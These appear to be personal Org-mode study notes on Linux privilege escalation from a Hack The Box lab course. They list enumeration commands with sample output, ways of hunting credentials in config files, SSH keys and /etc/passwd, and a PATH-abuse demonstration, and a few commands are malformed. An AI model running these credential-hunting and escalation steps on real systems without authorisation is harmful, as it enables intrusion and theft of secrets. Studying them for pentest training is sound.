 #+TITLE: _Linux Privilege Escalation_
#+AUTHOR: Mattia Cossu
#+Description: The root account on Linux systems provides full administrative level access to the operating system. During an assessment, you may gain a low-privileged shell on a Linux host and need to perform privilege escalation to the root account.

* Enumeration 
Enumeration is the key to privilege escalation. 
When you gain initial shell access to the host, it is important to check several key details.

** *OS Version*
Knowing the distribution (Ubuntu, Debian, FreeBSD, Fedora, SUSE, Red Hat, CentOS, etc.) will give you an idea of the types of tools that may be available. This would also identify the operating system version, for which there may be public exploits available.

** *Kernel Version*
As with the OS version, there may be public exploits that target a vulnerability in a specific kernel version. Kernel exploits can cause system instability or even a complete crash. Be careful running these against any production system, and make sure you fully understand the exploit and possible ramifications before running one.

** *Running Services*
Knowing what services are running on the host is important, especially those running as root. A misconfigured or vulnerable service running as root can be an easy win for privilege escalation. Flaws have been discovered in many common services such as Nagios, Exim, Samba, ProFTPd, etc. Public exploit PoCs exist for many of them, such as CVE**2016**9566, a local privilege escalation flaw in Nagios Core < 4.2.4.
#+BEGIN_SRC bash
ps aux | grep root
#+END_SRC

** *Installed Packages and Versions*
it is important to check for any out**of**date or vulnerable packages that may be easily leveraged for privilege escalation. 

** *Logged in Users*
Knowing which other users are logged into the system and what they are doing can give greater into possible local lateral movement and privilege escalation paths.
#+BEGIN_SRC bash
ps au
#+END_SRC

** *User Home Directories*
User home folders may also contain SSH keys that can be used to access other systems or scripts and configuration files containing credentials.

** Other important location are
#+BEGIN_SRC bash
ls /home # Home Directory Contents
ls -la /home/<user>/ # User's Home Directory Contents
ls -l ~/.ssh # SSH Directory Contents
history # Bash history 
#+END_SRC

** *Sudo Privileges*
However, often *sudoer* entries include *NOPASSWD*, meaning that the user can run the specified command without being prompted for a password. Not all commands, even we can run as root, will lead to privilege escalation.
#+BEGIN_SRC bash
sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
#+END_SRC

** *Configuration Files*
Configuration files can hold a wealth of information. It is worth searching through all files that end in extensions such as .conf and .config, for usernames, passwords, and other secrets.

** *Readable Shadow File*
If the shadow file is readable, you will be able to gather password hashes for all users who have a password set. While this does not guarantee further access, these hashes can be subjected to an offline brute**force attack to recover the cleartext password.

** *Password Hashes in /etc/passwd*
Occasionally, you will see password hashes directly in the /etc/passwd file. This file is readable by all users, and as with hashes in the shadow file, these can be subjected to an offline password cracking attack. This configuration, while not common, can sometimes be seen on embedded devices and routers.
#+BEGIN_SRC bash
cat /etc/passwd
#+END_SRC

** *Cron Jobs*
Cron jobs on Linux systems are similar to Windows scheduled tasks. They are often set up to perform maintenance and backup tasks. In conjunction with other misconfigurations such as relative paths or weak permissions, they can leverage to escalate privileges when the scheduled cron job runs.
#+BEGIN_SRC bash
ls -la /etc/cron.daily/
#+END_SRC

** *Unmounted File Systems and Additional Drives*
If you discover and can mount an additional drive or unmounted file system, you may find sensitive files, passwords, or backups that can be leveraged to escalate privileges.
#+BEGIN_SRC bash
  lsblk

  NAME                      MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
  loop0                       7:0    0   55M  1 loop /snap/core18/1705
  loop1                       7:1    0   69M  1 loop /snap/lxd/14804
  loop2                       7:2    0   47M  1 loop /snap/snapd/16292
  loop3                       7:3    0  103M  1 loop /snap/lxd/23339
  loop4                       7:4    0   62M  1 loop /snap/core20/1587
  loop5                       7:5    0 55.6M  1 loop /snap/core18/2538
  sda                         8:0    0   20G  0 disk 
  ├─sda1                      8:1    0    1M  0 part 
  ├─sda2                      8:2    0    1G  0 part /boot
  └─sda3                      8:3    0   19G  0 part 
  └─ubuntu--vg-ubuntu--lv 253:0    0   18G  0 lvm  /
  sr0                        11:0    1  908M  0 rom 
#+END_SRC

** *SETUID and SETGID Permissions*
Binaries are set with these permissions to allow a user to run a command as root, without having to grant root**level access to the user. Many binaries contain functionality that can be exploited to get a root shell.

** *Writeable Directories*
It is important to discover which directories are writeable if you need to download tools to the system. You may discover a writeable directory where a cron job places files, which provides an idea of how often the cron job runs and could be used to elevate privileges if the script that the cron job runs is also writeable.
#+BEGIN_SRC bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
#+END_SRC

** *Writeable Files*
Are any scripts or configuration files world-writable? While altering configuration files can be extremely destructive, there may be instances where a minor modification can open up further access. Also, any scripts that are run as root using cron jobs can be modified slightly to append a command.
#+BEGIN_SRC bash
find / -path /proc --prune --o --type f --perm --o+w 2>/dev/null
#+END_SRC
* Information Gathering
** Environment Enumeration
The first and most fundamental question to address is, "What operating system are we dealing with?" Different Linux distributions require distinct enumeration techniques. For example, if you find yourself on a CentOS or Red Hat Enterprise Linux host, your approach may vary compared to a Debian-based system like Ubuntu. Even more exotic systems like FreeBSD, Solaris, HP-UX, or IBM AIX will demand unique commands and tactics.

However, while the specific commands may differ, the principles behind enumeration remain consistent. In this module, we will begin with an Ubuntu target to cover general tactics and techniques. The goal is to develop a comprehensive and repeatable process that can be applied to any Linux

1. Started with ~basic enumeration~
   #+BEGIN_SRC bash
whoami # what user are we running as
id # what groups does our user belong to?
hostname #what is the server named. can we gather anything from the naming convention?
ifconfig or ip -a #what subnet did we land in, does the host have additional NICs in other subnets?
sudo -l #can our user run anything with sudo (as another user as root) without needing a password? This can sometimes be the easiest win and we can do  something like sudo su and drop right into a root shell.
   #+END_SRC

2. Cheking out what ~operating system and version~ wea are dealing with
   #+BEGIN_SRC bash
  cat /etc/os-release

  NAME="Ubuntu"
  VERSION="20.04.4 LTS (Focal Fossa)" # <-- Version!
  ID=ubuntu
  ID_LIKE=debian
  PRETTY_NAME="Ubuntu 20.04.4 LTS"
  VERSION_ID="20.04"
  HOME_URL="https://www.ubuntu.com/"
  SUPPORT_URL="https://help.ubuntu.com/"
  BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
  PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
  VERSION_CODENAME=focal
  UBUNTU_CODENAME=focal
   #+END_SRC
   
3. Check out our current ~user's PATH~
    which is where the Linux system looks every time a command is executed for any executables to match the name of
    what we type, i.e., id which on this system is located at /usr/bin/id.
   #+BEGIN_SRC bash
  echo $PATH

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
   #+END_SRC

4. Check out all ~environment variables~ that are set for our current user
   #+BEGIN_SRC bash
  env

  SHELL=/bin/bash
  PWD=/home/htb-student
  LOGNAME=htb-student
  XDG_SESSION_TYPE=tty
  MOTD_SHOWN=pam
  HOME=/home/htb-student
  LANG=en_US.UTF-8
   #+END_SRC

5. ~Kernel versio~
   #+BEGIN_SRC bash
  uname -a

  Linux nixlpe02 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
   #+END_SRC 

6. ~CPU type/version~
   #+BEGIN_SRC bash
  lscpu

  Architecture:                    x86_64
  CPU op-mode(s):                  32-bit, 64-bit
  Byte Order:                      Little Endian
  Address sizes:                   43 bits physical, 48 bits virtual
  CPU(s):                          2
  On-line CPU(s) list:             0,1
  Thread(s) per core:              1
  Core(s) per socket:              2
  Socket(s):                       1
  NUMA node(s):                    1
  Vendor ID:                       AuthenticAMD
  CPU family:                      23
  Model:                           49
  Model name:                      AMD EPYC 7302P 16-Core Processor
  Stepping:                        0
  CPU MHz:                         2994.375
  BogoMIPS:                        5988.75
  Hypervisor vendor:               VMware
   #+END_SRC

7. Chek ~installed shell~
   #+BEGIN_SRC bash
  cat /etc/shells

  # /etc/shells: valid login shells
  /bin/sh
  /bin/bash
  /usr/bin/bash
  /bin/rbash
  /usr/bin/rbash
  /bin/dash
  /usr/bin/dash
  /usr/bin/tmux
  /usr/bin/screen
   #+END_SRC

8. We should also check to see if any ~defenses are in place~ and we can enumerate any information about them. Some things to look for include:
   - [[https://en.wikipedia.org/wiki/Exec_Shield][Exec Shield]]
   - [[https://linux.die.net/man/8/iptables][iptables]]
   - [[https://apparmor.net/][AppArmor]]
   - [[https://www.redhat.com/en/topics/linux/what-is-selinux][SELinux]]
   - [[https://github.com/fail2ban/fail2ban][Fail2ban]]
   - [[https://www.snort.org/faq/what-is-snort][Snort]]
   - [[https://wiki.ubuntu.com/UncomplicatedFirewall][Uncomplicated Firewall]]

9. Check out the ~Routing Table~ by typing route or netstat -rn.
   #+BEGIN_SRC bash
     route

     Kernel IP routing table
     Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
     default         _gateway        0.0.0.0         UG    0      0        0 ens192
     10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens192
   #+END_SRC

10. ~Arp Table~ to see what other hosts the target has been communicating with.
    #+BEGIN_SRC bash 
      arp -a

      _gateway (10.129.0.1) at 00:50:56:b9:b9:fc [ether] on ens192
    #+END_SRC

11. ~User~
    - *All user*
      #+BEGIN_SRC bash
	cat /etc/passwd

	root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
	tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
	mrb3n:x:1000:1000:mrb3n:/home/mrb3n:/bin/bash
	bjones:x:1001:1001::/home/bjones:/bin/sh
	administrator.ilfreight:x:1002:1002::/home/administrator.ilfreight:/bin/sh
	backupsvc:x:1003:1003::/home/backupsvc:/bin/sh
	cliff.moore:x:1004:1004::/home/cliff.moore:/bin/bash
	logger:x:1005:1005::/home/logger:/bin/sh
	shared:x:1006:1006::/home/shared:/bin/sh
	stacey.jenkins:x:1007:1007::/home/stacey.jenkins:/bin/bash
	htb-student:x:1008:1008::/home/htb-student:/bin/bash
	<SNIP>
       #+END_SRC

    - *Deep search*
      Occasionally, we will see password hashes directly in the /etc/passwd file. This file is readable by all users,
      and as with hashes in the /etc/shadow file, these can be subjected to an offline password cracking attack. This
      configuration, while not common, can sometimes be seen on embedded devices and routers.
      #+BEGIN_SRC bash
  cat /etc/passwd | cut -f1 -d:

  root
  daemon
  bin
  sys

  ...SNIP...

  mrb3n
  lxd
  bjones
  administrator.ilfreight
  backupsvc
  cliff.moore
  logger
  shared
  stacey.jenkins
  htb-student
#+END_SRC

    - *Users have login shells*
      We'll also want to check which users have login shells. Once we see what shells are on the system, we can check
      each version for vulnerabilities. Because outdated versions, such as Bash version 4.1, are vulnerable to a
      shellshock exploit.
      #+BEGIN_SRC bash
  grep "*sh$" /etc/passwd

  root:x:0:0:root:/root:/bin/bash
  mrb3n:x:1000:1000:mrb3n:/home/mrb3n:/bin/bash
  bjones:x:1001:1001::/home/bjones:/bin/sh
  administrator.ilfreight:x:1002:1002::/home/administrator.ilfreight:/bin/sh
  backupsvc:x:1003:1003::/home/backupsvc:/bin/sh
  cliff.moore:x:1004:1004::/home/cliff.moore:/bin/bash
  logger:x:1005:1005::/home/logger:/bin/sh
  shared:x:1006:1006::/home/shared:/bin/sh
  stacey.jenkins:x:1007:1007::/home/stacey.jenkins:/bin/bash
  htb-student:x:1008:1008::/home/htb-student:/bin/bash
      #+END_SRC

12. ~Existing Groups~
    The /etc/group file lists all of the groups on the system.
    #+BEGIN_SRC bash
  cat /etc/group
  
  root:x:0:
  daemon:x:1:
  bin:x:2:
  sys:x:3:
  adm:x:4:syslog,htb-student
  tty:x:5:syslog
  disk:x:6:
  lp:x:7:
  mail:x:8:
  news:x:9:
  uucp:x:10:
  man:x:12:
  proxy:x:13:
  kmem:x:15:
  dialout:x:20:
  fax:x:21:
  voice:x:22:
  cdrom:x:24:htb-student
  floppy:x:25:
  tape:x:26:
  sudo:x:27:mrb3n,htb-student
  audio:x:29:pulse
  dip:x:30:htb-student
  www-data:x:33:
  #+END_SRC

    We can then use the getent command to list members of any interesting groups
    #+BEGIN_SRC bash
      getent group sudo
      
      sudo:x:27:mrb3n
    #+END_SRC

13. Check all ~User~ with your home directory
    We do that for search interssetsing file maybe containing valnearble information 
    #+BEGIN_SRC bash
      ls /home

      administrator.ilfreight  bjones       htb-student  mrb3n   stacey.jenkins
      backupsvc                cliff.moore  logger       shared
    #+END_SRC

14. ~Mounted File Systems~
    We have to check all file System
    #+BEGIN_SRC bash
df -h

Filesystem      Size  Used Avail Use% Mounted on
udev            1,9G     0  1,9G   0% /dev
tmpfs           389M  1,8M  388M   1% /run
/dev/sda5        20G  7,9G   11G  44% /
tmpfs           1,9G     0  1,9G   0% /dev/shm
tmpfs           5,0M  4,0K  5,0M   1% /run/lock
tmpfs           1,9G     0  1,9G   0% /sys/fs/cgroup
/dev/loop0      128K  128K     0 100% /snap/bare/5
/dev/loop1       62M   62M     0 100% /snap/core20/1611
/dev/loop2       92M   92M     0 100% /snap/gtk-common-themes/1535
/dev/loop4       55M   55M     0 100% /snap/snap-store/558
/dev/loop3      347M  347M     0 100% /snap/gnome-3-38-2004/115
/dev/loop5       47M   47M     0 100% /snap/snapd/16292
/dev/sda1       511M  4,0K  511M   1% /boot/efi
tmpfs           389M   24K  389M   1% /run/user/1000
/dev/sr0        3,6G  3,6G     0 100% /media/htb-student/Ubuntu 20.04.5 LTS amd64
/dev/loop6       50M   50M     0 100% /snap/snapd/17576
/dev/loop7       64M   64M     0 100% /snap/core20/1695
/dev/loop8       46M   46M     0 100% /snap/snap-store/599
/dev/loop9      347M  347M     0 100% /snap/gnome-3-38-2004/119
    #+END_SRC

15. ~Unmounted File System~
    When a file system is unmounted, it is no longer accessible by the system.
    Therefore, if we can extend our privileges to the root user, we could mount and read these file systems
    ourselves. Unmounted file systems can be viewed as follows:
    #+BEGIN_SRC bash 
cat /etc/fstab | grep -v "#" | column -t

UUID=5bf16727-fcdf-4205-906c-0620aa4a058f  /          ext4  errors=remount-ro  0  1
UUID=BE56-AAE0                             /boot/efi  vfat  umask=0077         0  1
/swapfile                                  none       swap  sw                 0  0
    #+END_SRC

16. ~All Hidden Artifacts~
    Many folders and files are kept hidden on a Linux system so they are not obvious, and accidental editing is
    prevented. Why such files and folders are kept hidden, there are many more reasons than those mentioned so far.
    Nevertheless, we need to be able to locate all hidden files and folders because they can often contain sensitive
    information, even if we have read-only permissions.

    - All Hidden ~Files~
      #+BEGIN_SRC bash
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep <User>

-rw-r--r-- 1 htb-student htb-student 3771 Nov 27 11:16 /home/htb-student/.bashrc
-rw-rw-r-- 1 htb-student htb-student 180 Nov 27 11:36 /home/htb-student/.wget-hsts
-rw------- 1 htb-student htb-student 387 Nov 27 14:02 /home/htb-student/.bash_history
-rw-r--r-- 1 htb-student htb-student 807 Nov 27 11:16 /home/htb-student/.profile
-rw-r--r-- 1 htb-student htb-student 0 Nov 27 11:31 /home/htb-student/.sudo_as_admin_successful
-rw-r--r-- 1 htb-student htb-student 220 Nov 27 11:16 /home/htb-student/.bash_logout
-rw-rw-r-- 1 htb-student htb-student 162 Nov 28 13:26 /home/htb-student/.notes
      #+END_SRC

    - All Hidden ~Directory~
      #+BEGIN_SRC bash
	find / -type d -name ".*" -ls 2>/dev/null

	
	   684822      4 drwx------   3 htb-student htb-student     4096 Nov 28 12:32 /home/htb-student/.gnupg
	   790793      4 drwx------   2 htb-student htb-student     4096 Okt 27 11:31 /home/htb-student/.ssh
	   684804      4 drwx------  10 htb-student htb-student     4096 Okt 27 11:30 /home/htb-student/.cache
	   790827      4 drwxrwxr-x   8 htb-student htb-student     4096 Okt 27 11:32 /home/htb-student/CVE-2021-3156/.git
	   684796      4 drwx------  10 htb-student htb-student     4096 Okt 27 11:30 /home/htb-student/.config
	   655426      4 drwxr-xr-x   3 htb-student htb-student     4096 Okt 27 11:19 /home/htb-student/.local
	   524808      4 drwxr-xr-x   7 gdm         gdm             4096 Okt 27 11:19 /var/lib/gdm3/.cache
	   544027      4 drwxr-xr-x   7 gdm         gdm             4096 Okt 27 11:19 /var/lib/gdm3/.config
	   544028      4 drwxr-xr-x   3 gdm         gdm             4096 Aug 31 08:54 /var/lib/gdm3/.local
	   524938      4 drwx------   2 colord      colord          4096 Okt 27 11:19 /var/lib/colord/.cache
	     1408      2 dr-xr-xr-x   1 htb-student htb-student     2048 Aug 31 09:17 /media/htb-student/Ubuntu\ 20.04.5\ LTS\ amd64/.disk
	   280101      4 drwxrwxrwt   2 root        root            4096 Nov 28 12:31 /tmp/.font-unix
	   262364      4 drwxrwxrwt   2 root        root            4096 Nov 28 12:32 /tmp/.ICE-unix
	   262362      4 drwxrwxrwt   2 root        root            4096 Nov 28 12:32 /tmp/.X11-unix
	   280103      4 drwxrwxrwt   2 root        root            4096 Nov 28 12:31 /tmp/.Test-unix
	   262830      4 drwxrwxrwt   2 root        root            4096 Nov 28 12:31 /tmp/.XIM-unix
	   661820      4 drwxr-xr-x   5 root        root            4096 Aug 31 08:55 /usr/lib/modules/5.15.0-46-generic/vdso/.build-id
	   666709      4 drwxr-xr-x   5 root        root            4096 Okt 27 11:18 /usr/lib/modules/5.15.0-52-generic/vdso/.build-id
	   657527      4 drwxr-xr-x 170 root        root            4096 Aug 31 08:55 /usr/lib/debug/.build-id
      #+END_SRC

17. ~Temporary File~
    Both */tmp* and */var/tmp* are used to store data temporarily. However, the key difference is how long the data is
    stored in these file systems. The data retention time for /var/tmp is much longer than that of the /tmp directory.
    #+BEGIN_SRC bash
      ls -l /tmp /var/tmp /dev/shm

      /dev/shm:
      total 0

      /tmp:
      total 52
      -rw------- 1 htb-student htb-student    0 Nov 28 12:32 config-err-v8LfEU
      drwx------ 3 root        root        4096 Nov 28 12:37 snap.snap-store
      drwx------ 2 htb-student htb-student 4096 Nov 28 12:32 ssh-OKlLKjlc98xh
      <SNIP>
      drwx------ 2 htb-student htb-student 4096 Nov 28 12:37 tracker-extract-files.1000
      drwx------ 2 gdm         gdm         4096 Nov 28 12:31 tracker-extract-files.125

      /var/tmp:
      total 28
      drwx------ 3 root root 4096 Nov 28 12:31 systemd-private-7b455e62ec09484b87eff41023c4ca53-colord.service-RrPcyi
      drwx------ 3 root root 4096 Nov 28 12:31 systemd-private-7b455e62ec09484b87eff41023c4ca53-ModemManager.service-4Rej9e
    #+END_SRC

18. ~Search text~ into all file in file system
    #+BEGIN_SRC bash
      * grep -r -l 'HTB{[^}]*}' / 2>/dev/null

      * grep -r -l 'HTB{' / 2>/dev/null

      find / -type f -print0 | grep -r -l ‘HTB{[^}]*}’ / 2>/dev/null

      grep -EoR "HTB\{.*\}" / 2>/dev/null
  #+END_SRC

** Linux Services & Internals Enumeration
*** Internal
At this time we'll also want to gather as much network information as possible.
When we talk about the ~internals~, we mean the internal configuration and way of working, including integrated processes designed to accomplish specific tasks.
1. ~Network Interfaces~
   #+BEGIN_SRC bash
     ip a
   #+END_SRC

2. ~Hosts~
   #+BEGIN_SRC bash
     cat /etc/hosts
   #+END_SRC

3. ~User's Last Login~
   #+BEGIN_SRC bash
     lastlog
   #+END_SRC

4. ~Logged In Users~
   #+BEGIN_SRC bash
     w
   #+END_SRC

5. ~Command history~
   #+BEGIN_SRC bash
     history
   #+END_SRC

6. ~Finding History Files~
   Sometimes we can also find special history files created by scripts or programs. This can be found, among others,
   in scripts that monitor certain activities of users and check for suspicious activities.
   #+BEGIN_SRC bash
     find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null
   #+END_SRC

7. ~Cron~
   #+BEGIN_SRC bash
     ls -la /etc/cron.daily/
   #+END_SRC

8. ~Proc~
   The *proc filesystem* (~proc~ / ~procfs~) is a particular filesystem in Linux that contains information about system
   processes, hardware, and other system information. It is the primary way to access process information and can be
   used to view and modify kernel settings. It is virtual and does not exist as a real filesystem but is dynamically
   generated by the kernel. It can be used to look up system information such as the state of running processes,
   kernel parameters, system memory, and devices. It also sets certain system parameters, such as process priority,
   scheduling, and memory allocation.
   #+BEGIN_SRC bash
find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n"
   #+END_SRC

   
*** Services
If it is a slightly older Linux system, the likelihood increases that we can find installed packages that may already have at least one vulnerability. However, current versions of Linux distributions can also have older packages or software installed that may have such vulnerabilities. Therefore, we will see a method to help us detect potentially dangerous packages in a bit. To do this, we first need to create a list of installed packages to work with.

1. ~Installed Packages~
   #+BEGIN_SRC bash
     apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
   #+END_SRC

2. ~Sudo Version~
   #+BEGIN_SRC bash
     sudo -V
   #+END_SRC

3. ~Binaries~
   #+BEGIN_SRC bash
     ls -l /bin /usr/bin/ /usr/sbin/
   #+END_SRC

4. ~GTOFbins~
   the [[https://gtfobins.github.io/][GTOFbins]] provides an excellent platform that includes a list of binaries that can potentially be exploited to
   escalate our privileges on the target system. With the next oneliner, we can compare the existing binaries with
   the ones from GTFObins to see which binaries we should investigate later.
   #+BEGIN_SRC bash
     for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done
   #+END_SRC

5. ~Strace tool (sys call)~
   We can use the diagnostic tool strace on Linux-based operating systems to track and analyze system calls and
   signal processing. It allows us to follow the flow of a program and understand how it accesses system resources,
   processes signals, and receives and sends data from the operating system. In addition, we can also use the tool to
   monitor security-related activities and identify potential attack vectors, such as specific requests to remote
   hosts using passwords or tokens.

   The output of strace can be written to a file for later analysis, and it provides a wealth of options that allow
   detailed monitoring of the program's behavior.
   #+BEGIN_SRC bash 
     strace ping -c1 10.129.112.20
   #+END_SRC

6. ~Configuration Files~
   Users can read almost all configuration files on a Linux operating system if the administrator has kept them the
   same. These configuration files can often reveal how the service is set up and configured to understand better how
   we can use it for our purposes.
   #+BEGIN_SRC bash
     find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
   #+END_SRC

7. Search ~scripts~
   #+BEGIN_SRC bash
     find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
   #+END_SRC

8. Running ~Services~ by ~User~
   Also, if we look at the process list, it can give us information about which scripts or binaries are in use and by
   which user. So, for example, if it is a script created by the administrator in his path and whose rights have not
   been restricted, we can run it without going into the root directory.
      #+BEGIN_SRC bash
     ps aux | grep <user>
   #+END_SRC

9. Find ~version of a Softwer~
   For exemple Python
   #+BEGIN_SRC bash
     whereis python3
     ls -ls /usr/bin/python*
     compgen -c python | grep -P '^python\d'
     find /usr/bin/python* ! -type l
   #+END_SRC

** Credentials Hunting
When enumerating a system, it is important to note down any credentials. These may be found in configuration files (.conf, .config, .xml, etc.), shell scripts, a user's bash history file, backup (.bak) files, within database files or even in text files. Credentials may be useful for escalating to other users or even root, accessing databases and other systems within the environment.

The /var directory typically contains the web root for whatever web server is running on the host. The web root may contain database credentials or other types of credentials that can be leveraged to further access. A common example is MySQL database credentials within WordPress configuration files:
#+BEGIN_SRC bash
  cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

  define( 'DB_USER', 'wordpressuser' );
  define( 'DB_PASSWORD', 'WPadmin123!' );
#+END_SRC

The spool or mail directories, if accessible, may also contain valuable information or even credentials. It is common to find credentials stored in files in the web root (i.e. MySQL connection strings, WordPress configuration files).
#+BEGIN_SRC bash
  find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null

  /etc/ssh/ssh_config
  /etc/ssh/sshd_config
  /etc/python3/debian_config
  /etc/kbd/config
  /etc/manpath.config
  /boot/config-4.4.0-116-generic
  /boot/grub/i386-pc/configfile.mod
  /sys/devices/pci0000:00/0000:00:00.0/config
  /sys/devices/pci0000:00/0000:00:01.0/config
#+END_SRC

#+BEGIN_SRC bash
  grep -ri password
#+END_SRC

*** SSH Keys
It is also useful to search around the system for accessible SSH private keys. We may locate a private key for another, more privileged, user that we can use to connect back to the box with additional privileges. We may also sometimes find SSH keys that can be used to access other hosts in the environment. Whenever finding SSH keys check the known_hosts file to find targets. This file contains a list of public keys for all the hosts which the user has connected to in the past and may be useful for lateral movement or to find data on a remote host that can be used to perform privilege escalation on our target.
#+BEGIN_SRC bash
  ls ~/.ssh

  id_rsa  id_rsa.pub  known_hosts
#+END_SRC

* Environment-based Privilege Escalation
** Path Abuse
[[http://www.linfo.org/path_env_var.html][PATH]] is an environment variable that specifies the set of directories where an executable can be located. An account's PATH variable is a set of absolute paths, allowing a user to type a command without specifying the absolute path to the binary. For example, a user can type ~cat /tmp/test.txt~ instead of specifying the absolute path ~/bin/cat~ ~/tmp/test.txt~. We can check the contents of the PATH variable by typing ~env | grep PATH~ or ~echo $PATH~.
#+BEGIN_SRC bash
  echo $PATH

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
#+END_SRC

Creating a script or program in a directory specified in the PATH will make it executable from any directory on the system.
#+BEGIN_SRC bash
  pwd && conncheck 
#+END_SRC

As shown below, ~the conncheck~ script created in ~/usr/local/sbin~ will still run when in the ~/tmp~ directory because it was created in a directory specified in the PATH.
#+BEGIN_SRC bash
  pwd && conncheck 

  /tmp
  Active Internet connections (servers and established)
  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
  tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1189/sshd       
  tcp        0    268 10.129.2.12:22          10.10.14.3:43218        ESTABLISHED 1614/sshd: mrb3n [p
  tcp6       0      0 :::22                   :::*                    LISTEN      1189/sshd       
  tcp6       0      0 :::80                   :::*                    LISTEN      1304/apache2   
#+END_SRC

Adding ~.~ to a user's PATH adds their current working directory to the list. For example, if we can modify a user's path, we could replace a common binary such as ~ls~ with a malicious script such as a reverse shell. If we add . to the path by issuing the command ~PATH=.:$PATH~ and then ~export PATH~, we will be able to run binaries located in our current working directory by just typing the name of the file (i.e. just typing ~ls~ will call the malicious script named ~ls~ in the current working directory instead of the binary located at ~/bin/ls~).
#+BEGIN_SRC bash
  echo $PATH

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

  PATH=.:${PATH}
  export PATH
  echo $PATH

  .:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
#+END_SRC

In this example, we modify the path to run a simple ~echo~ command when the command ~ls~ is typed.
#+BEGIN_SRC bash
  touch ls
  echo 'echo "PATH ABUSE!!"' > ls
  chmod +x ls

  ls

  PATH ABUSE!!
#+END_SRC

** Wildcard Abuse
A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

| Characters | Significance                                                                                                           |
|------------+------------------------------------------------------------------------------------------------------------------------|
| ~*~          | An asterisk that can match any number of characters in a file name.                                                    |
